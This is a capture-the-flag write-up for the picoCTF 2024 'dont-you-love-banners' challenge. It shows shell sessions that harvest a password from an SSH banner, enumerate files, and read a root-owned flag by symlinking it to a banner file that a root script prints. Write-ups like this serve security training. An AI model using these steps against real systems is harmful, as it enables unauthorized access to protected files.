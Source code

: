 # dont-you-love-banners

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Level: Medium
Tags: General Skills, picoCTF 2024, shell, browser_webshell_solvable
Author: LOIC SHEMA / SYREAL

Description:
Can you abuse the banner?

The server has been leaking some crucial information on tethys.picoctf.net 61669. 
Use the leaked information to get to the server.

To connect to the running application use nc tethys.picoctf.net 64937. 
From the above information abuse the machine and find the flag in the /root directory.

Hints:
1. Do you know about symlinks?
2. Maybe some small password cracking or guessing
```
Challenge link: [https://play.picoctf.org/practice/challenge/437](https://play.picoctf.org/practice/challenge/437)

## Solution

### Get banner info

We begin by connecting to the leaky service
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/dont-you-love-banners]
└─$ nc tethys.picoctf.net 61669
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
^C

```
We get a possible password (`My_Passw@rd_@1234`) in the OpenSSH banner.

### Connect to the application

Next, we connect to the application
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/dont-you-love-banners]
└─$ nc tethys.picoctf.net 64937                
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ 
```
After some googling and trial-and-error we find the additional answers:
- [DEFCON](https://defcon.org/)
- [John Draper](https://en.wikipedia.org/wiki/John_Draper)

### Enumeration

Now we can do some enumeration and search for the flag
```bash
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9 16:39 .
drwxr-xr-x 1 root   root     20 Mar  9 16:39 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7 17:25 banner
-rw-r--r-- 1 root   root     13 Feb  7 17:25 text
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
player@challenge:~$ find / -type f -name [Ff]lag* 2> /dev/null
find / -type f -name [Ff]lag* 2> /dev/null
/root/flag.txt
/sys/devices/pnp0/00:04/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
player@challenge:~$ cat /root/flag.txt
cat /root/flag.txt
cat: /root/flag.txt: Permission denied
player@challenge:~$ ls -la /root/flag.txt
ls -la /root/flag.txt
-rwx------ 1 root root 46 Mar  9 16:39 /root/flag.txt
player@challenge:~$ 
```
We need to escalate our privileges to read the flag file.

### Privilege escalation

Let's check what else is in the `/root` directory
```bash
player@challenge:~$ cd /root
cd /root
player@challenge:/root$ ls -la
ls -la
total 16
drwxr-xr-x 1 root root    6 Mar  9 16:39 .
drwxr-xr-x 1 root root   29 Jul 13 07:29 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar  9 16:39 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7 17:25 script.py
player@challenge:/root$ cat script.py
cat script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt

player@challenge:/root$ 
```
Ah, this is the script that runs when we connect to the application.  
And it reads and prints the banner file.

### Create a symbolic link to the flag file

We can create a symbolic link to the flag file and it will be printed when we connect to the application
```bash
player@challenge:/root$ ln -f -s /root/flag.txt /home/player/banner
ln -f -s /root/flag.txt /home/player/banner
player@challenge:/root$ ls -l /home/player/banner
ls -l /home/player/banner
lrwxrwxrwx 1 player player 14 Jul 13 08:07 /home/player/banner -> /root/flag.txt
player@challenge:/root$ exit
exit
logout
What is the top cyber security conference in the world?
^C
```

### Get the flag

Finally, we connect to the application again and get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/dont-you-love-banners]
└─$ nc tethys.picoctf.net 64937
picoCTF{<REDACTED>}

what is the password? 
^C
```
 
For additional information, please see the references below.

## References

- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [ln - Linux manual page](https://man7.org/linux/man-pages/man1/ln.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [Wikipedia - John Draper](https://en.wikipedia.org/wiki/John_Draper)
- [Wikipedia - Phreaking](https://en.wikipedia.org/wiki/Phreaking)
